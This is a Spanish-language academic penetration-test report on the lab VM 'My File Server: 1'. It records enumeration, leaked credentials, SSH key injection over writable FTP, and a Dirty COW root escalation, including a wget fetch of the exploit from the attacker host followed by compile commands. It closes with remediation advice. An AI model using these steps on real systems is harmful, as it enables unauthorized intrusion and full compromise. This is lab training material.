Actividad 13: Prueba de Penetración (My File Server 1)
Archivos del Proyecto
Reporte y documentación técnica de la actividad y presentación profesional
Alcance de la Evaluación
Determinar el nivel de exposición y el impacto máximo alcanzable sobre la máquina virtual "My File Server: 1" (IP 192.168.56.103). Se simuló un atacante externo en un segmento aislado, aplicando la metodología PTES sin credenciales previas.
Vulnerabilidades Críticas
- Fuga de información (readme.txt expone credenciales).
- Configuración insegura FTP (Acceso de escritura en directorio home).
- Escalada de Privilegios Local mediante condición de carrera (Dirty COW).
Resultado del Compromiso
CRÍTICO: Compromiso Total (Acceso Root).
Se logró acceso al sistema mediante inyección de llave SSH y se elevó a privilegios máximos, resultando en la captura del archivo /root/proof.txt.
Presentación Ejecutiva
Terminal de Explotación Interactiva
> ADVERTENCIA LEGAL Y DE SEGURIDAD
El siguiente registro paso a paso documenta técnicas ofensivas reales de enumeración, explotación y escalada de privilegios. Este ejercicio fue realizado estrictamente con fines académicos y de investigación dentro de un entorno de laboratorio aislado, seguro y controlado (VirtualBox Host-Only). El uso de estas metodologías y herramientas sobre sistemas, redes o infraestructura sin el consentimiento expreso y autorización por escrito de los propietarios es una violación a la ley.
Procedimiento de Penetración (Kill Chain)
Preparación de Red Aislada (Objetivo)
Se configuró el Adaptador 1 de la máquina virtual "My_file_server_1" en modo "Adaptador sólo anfitrión" (Host-Only) en VirtualBox, garantizando un entorno aislado sin exposición a redes externas.

Preparación de Red Aislada (Atacante)
De forma equivalente, la máquina atacante Kali Linux fue configurada en la misma red "VirtualBox Host-Only Ethernet Adapter" para asegurar visibilidad directa entre atacante y objetivo en el laboratorio seguro.

Arranque del Sistema Objetivo
Se inició la máquina objetivo. La pantalla de login expuso información valiosa por defecto: el sistema operativo CentOS Linux 7 (Core), el kernel 3.10.0-229 y el hostname "fileserver".

Identificación de IP Local
Desde Kali Linux, se ejecutó el comando ip a para determinar la dirección IP propia en el segmento (192.168.56.102), estableciendo el rango de escaneo para buscar al servidor.

Barrido ARP de la Red
Se utilizó la herramienta netdiscover sobre el rango 192.168.56.0/24 para identificar máquinas activas dentro de la red local aislada.

Confirmación del Objetivo
Comparando la dirección MAC descubierta con la configurada en VirtualBox, se confirmó inequívocamente que la IP de la máquina objetivo es 192.168.56.103.

Escaneo de Puertos Nmap
Se lanzó un escaneo de puertos exhaustivo (-p-) y agresivo (-A) con Nmap apuntando a la IP 192.168.56.103 para descubrir todos los servicios expuestos, sus versiones y posibles vulnerabilidades base.

Resultados Nmap (Parte 1)
El reporte de Nmap evidenció puertos críticos abiertos: FTP (21) ejecutando vsftpd con login anónimo y acceso de escritura, SSH (22), HTTP (80) con Apache 2.4.6, y RPC (111).

Resultados Nmap (Parte 2)
Continuando con el escaneo, se detectó también un servicio SMB en el puerto 445 (Samba 4.9.1) que permite Null Session, junto con un segundo FTP (2121) ejecutando ProFTPD.

Enumeración SMB (smbmap)
Aprovechando la detección del puerto 445, se utilizó smbmap contra el objetivo. Esto reveló la existencia de un recurso compartido llamado "smbdata" con permisos totales de Lectura y Escritura (READ, WRITE) sin requerir autenticación.

Escaneo de Vulnerabilidades Web (Nikto)
Se lanzó el escáner Nikto contra el puerto 80. Además de señalar cabeceras ausentes y software obsoleto, la herramienta detectó un archivo altamente sospechoso en la raíz: /readme.txt.

Fuga de Información (Credenciales Expuestas)
Al navegar manualmente hacia http://192.168.56.103/readme.txt, se encontró un documento en texto plano que divulgaba de forma directa una contraseña válida del sistema: rootroot1. Cruzando esto con el usuario "smbuser" detectado antes, se obtuvo un vector de entrada.

Generación de Llaves SSH (Local)
Para asegurar una persistencia sigilosa, en la máquina Kali se generó un par de llaves criptográficas RSA usando ssh-keygen, con la intención de subir la llave pública al servidor vulnerado.

Conexión FTP Exitosa
Con el par de credenciales smbuser:rootroot1, se realizó un login manual al servicio FTP del servidor (puerto 21). El código 230 Login successful confirmó que las credenciales eran legítimas en el sistema.

Exploración de Permisos FTP
Mediante el comando pwd se validó que la sesión FTP estaba posicionada en /home/smbuser. Se ejecutó un cd .ssh que resultó exitoso, comprobando la existencia de la carpeta y los permisos de acceso sobre la misma.

Inyección de Authorized_Keys
Estando dentro de la carpeta .ssh, se utilizó el comando put para transferir la llave pública creada previamente, renombrándola al vuelo como authorized_keys, lo que autoriza al atacante a iniciar sesión sin clave.

Verificación de Carga y Acceso Inicial (SSH)
Tras verificar la carga con un ls en el FTP y salir, se procedió a iniciar conexión SSH (ssh smbuser@192.168.56.103). La autenticación por llave pública funcionó, otorgando una terminal interactiva (Initial Access) sin introducir contraseña alguna.

Acceso Inicial Interactivo (SSH)
Con la llave pública del atacante ya autorizada en el servidor, se estableció una conexión SSH hacia el usuario smbuser (ssh smbuser@192.168.56.103). Dado que el par de llaves coincide con la configuración recién depositada, el servidor autentica al cliente sin solicitar contraseña, otorgando acceso a una shell interactiva completa. Este resultado representa el acceso inicial (initial access) exitoso al sistema objetivo.

Identificación de Exploit y Servidor Python
La información recolectada reveló un kernel vulnerable (CentOS 7, 3.10.0-229). Desde una segunda sesión en Kali, se utilizó searchsploit para localizar el código fuente del exploit correspondiente a Dirty COW (CVE-2016-5195). Inmediatamente después, se levantó un servidor HTTP simple con Python (python3 -m http.server 8000) para exponer el archivo y poder descargarlo desde la víctima.

Transferencia, Compilación y Compromiso (Root)
En la sesión SSH activa, se descargó el exploit apuntando a la IP de Kali (wget http://192.168.56.102:8000/40616.c) y se compiló utilizando gcc 40616.c -o cowroot -pthread. Al ejecutar el binario resultante (./cowroot), el script sobrescribió el binario /usr/bin/passwd aprovechando la condición de carrera, y finalmente presentó una shell con privilegios de root.

Análisis de Impacto (Modelo CIA)
> Confidencialidad (Crítico)
El acceso root otorga capacidad de lectura sobre absolutamente cualquier archivo del sistema, incluyendo bases de datos, archivos de configuración con credenciales adicionales, claves privadas, logs y recursos compartidos. La fuga de datos expuso contraseñas previas a la escalada.
> Integridad (Crítico)
Con privilegios de root, un atacante puede modificar, corromper o eliminar cualquier binario u archivo. La explotación de Dirty COW ilustró este riesgo directamente al sobrescribir en memoria el binario /usr/bin/passwd para obtener persistencia SUID.
> Disponibilidad (Alto)
Aunque no se ejecutaron ataques DoS, el acceso root es suficiente para detener servicios críticos (FTP, SMB, SSH, HTTP), eliminar datos masivamente o inutilizar por completo el servidor, afectando la continuidad operativa de la organización.
Recomendaciones de Remediación
> Prioridad Crítica
- Eliminar de inmediato archivos de texto plano accesibles públicamente que contengan credenciales o información sensible (
readme.txt). - Actualizar el kernel de Linux o aplicar parche de seguridad correspondiente a CVE-2016-5195 (Dirty COW) para evitar explotación de condición de carrera.
> Prioridad Alta
- Deshabilitar inicio de sesión anónimo en servicios FTP y restringir permisos de escritura fuera del directorio de datos designado, protegiendo carpetas como
.ssh. - Auditar y restringir permisos en Samba, deshabilitando explícitamente sesiones NULL.
> Prioridad Media / General
- Actualizar el servicio web Apache 2.4.6 y deshabilitar métodos riesgosos (TRACE).
- Establecer políticas robustas de gestión de parches (Patch Management) y reducir la superficie de ataque cerrando puertos y servicios innecesarios.
Tabla de Hallazgos
| ID | Vulnerabilidad | Severidad | Impacto |
|---|---|---|---|
| H-01 | Divulgación de información sensible (readme.txt expone credenciales) | CRÍTICA | Compromiso de confidencialidad: revela credenciales válidas (smbuser:rootroot1) utilizadas para el acceso inicial al sistema. |
| H-02 | Escalada de privilegios local — Dirty COW (CVE-2016-5195) | CRÍTICA | Compromiso total de confidencialidad, integridad y disponibilidad: permite obtener una shell root a partir de un usuario sin privilegios. |
| H-03 | Recurso SMB "smbdata" con lectura/escritura vía sesión NULL | ALTA | Cualquier usuario no autenticado puede leer y escribir archivos en el recurso compartido, incluyendo la carga de contenido malicioso. |
| H-04 | Login FTP anónimo/autenticado con escritura sobre directorio .ssh | ALTA | Permitió depositar una llave SSH no autorizada en authorized_keys, otorgando acceso persistente sin contraseña. |
| H-05 | Servicio Apache 2.4.6 desactualizado con método HTTP TRACE habilitado | MEDIA | Expone al servidor a ataques de Cross-Site Tracing (XST) y vulnerabilidades conocidas de versiones antiguas. |
| H-06 | Segundo servicio FTP anónimo (ProFTPD 1.3.5, puerto 2121) | MEDIA | Superficie de ataque adicional innecesaria; aumenta el riesgo de explotación de vulnerabilidades específicas. |
| H-07 | Cabeceras de seguridad HTTP ausentes y directory indexing en /icons/ | BAJA | Facilita el reconocimiento y expone al servidor a ataques del lado del cliente (clickjacking, MIME sniffing). |